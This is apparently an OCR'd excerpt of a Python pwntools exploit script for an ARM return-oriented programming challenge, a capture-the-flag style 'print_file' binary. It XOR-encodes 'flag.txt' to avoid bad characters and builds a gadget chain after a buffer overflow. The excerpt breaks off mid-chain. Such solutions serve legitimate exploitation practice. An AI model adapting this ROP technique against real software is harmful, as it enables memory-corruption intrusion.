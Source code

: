 ```python

def xorchain(chain, bytes, mask):
    r=b""
    for i,c in enumerate(chain):
        if bytes&0x80:
            c=c^mask
        r+=chr(c).encode()
        bytes= bytes<<1
    return r



g_pop_r3 = 0x00010690
g_pop_r4 = 0x000105b0
g_pop_r5r6 = 0x10614

# str r3, [r4] ; pop {r3, r4, pc}
g_str_r3r4 = 0x000105ec

# 0x00010610 : str r3, [r4] ; pop {r5, r6, pc}
g_str_r3r4 = 0x00010610
# pop {r0, pc}
g_pop_r0 = 0x000105f4

# 0x00010618 : ldr r1, [r5] ; eor r1, r1, r6 ; str r1, [r5] ; pop {r0, pc}
g_xor_r5r6 = 0x00010618

if len(sys.argv)>1 and sys.argv[1] == "-d":
    io = gdb.debug([elf.path],gdbscript=gs)
else:
    io = process([elf.path])

data = elf.get_section_by_name('.data').header['sh_addr']
print_file = elf.plt['print_file']
main=elf.symbols['main']

io.recvuntil(b"> ")


offset=0x24

flagxored = xorchain(b"flag.txt",0b00111010,3)
log.info(f"flagxored    = {flagxored}")
log.info(f".data       = 0x{data:x}")
log.info(f".print_file = 0x{print_file:x}")


PL=b"A"*offset
# Ecriture de flag.txt xor 3
#
PL+=p32(4)           # r4
PL+=p32(5)           # r11
PL+=p32(g_pop_r3)    # r3 <=
PL+=flagxored[:4]

PL+=p32(g_pop_r4)    # r4 <= data
PL+=p32(data)
PL+=p32(g_str_r3r4)
PL+=p32(5)           # r5
PL+=p32(6)           # r6
PL+=p32(g_pop_r3)
PL+=flagxored[4:8]
PL+=p32(g_pop_r4)
```
